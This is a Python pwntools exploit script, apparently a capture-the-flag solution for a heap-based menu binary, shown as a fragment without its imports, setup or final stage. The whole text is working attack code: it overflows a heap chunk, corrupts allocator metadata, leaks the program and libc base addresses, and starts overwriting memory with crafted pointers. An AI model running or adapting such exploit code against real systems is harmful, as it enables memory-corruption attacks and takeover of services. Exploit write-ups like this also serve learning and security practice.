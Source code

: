 ```python
def update(index,content,iid):
  r.recvuntil(": ")
  r.sendline("3")
  r.recvuntil(": ")
  r.sendline(str(index))
  r.recvuntil(": ")
  r.send(content)
  r.recvuntil(": ")
  r.sendline(str(iid))
  pass

def remove(index):
  r.recvuntil(": ")
  r.sendline("4")
  r.recvuntil(":")
  r.sendline(str(index))
  pass

def show(index,start,end):
  r.recvuntil(": ")
  r.sendline("2")
  r.recvuntil(": ")
  r.sendline(str(index))
  pass
  r.recvuntil(start)
  data = r.recvuntil(end)[:-len(end)]
  return data

def secret(address):
  r.recvuntil(": ")
  r.sendline("666")
  r.recvuntil(": ")
  r.sendline(str(address))

if len(sys.argv) == 1:
  pass
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  add(0x10,"F"*0x8,100)
  add(0x10,"F"*0x8,100)
  for i in xrange(0x8):
    update(0,"C"*(0x9+i),100)
  secret(0xc047fff8004)
  
  for i in xrange(0x8,0xd):
    update(0,"C"*(0x9+i),100)
  update(0,"A"*0xe + p64(0xffff000000024141),0x023000001003ffff)
  remove(0)
  add(0x10,p64(0x602000000018),0)
  code = u64(show(0,"Content: ","\nID").ljust(8,"\x00")) - 0x114ab0
  print("code = {}".format(hex(code)))

  update(2,"AA",0xffffffffffffffff)
  update(2,p64(code+0x347E28) + p64(code+0x114ab0)[:2] , (code+0x114ab0)>>8)

  libc.address = u64(show(0,"Content: ","\nID").ljust(8,"\x00")) - libc.symbols['puts']
  print("libc.address = {}".format(hex(libc.address)))

  update(2,p64(libc.address+0x03EE098)[:-1], ((code+0x114ab0) << 16))
```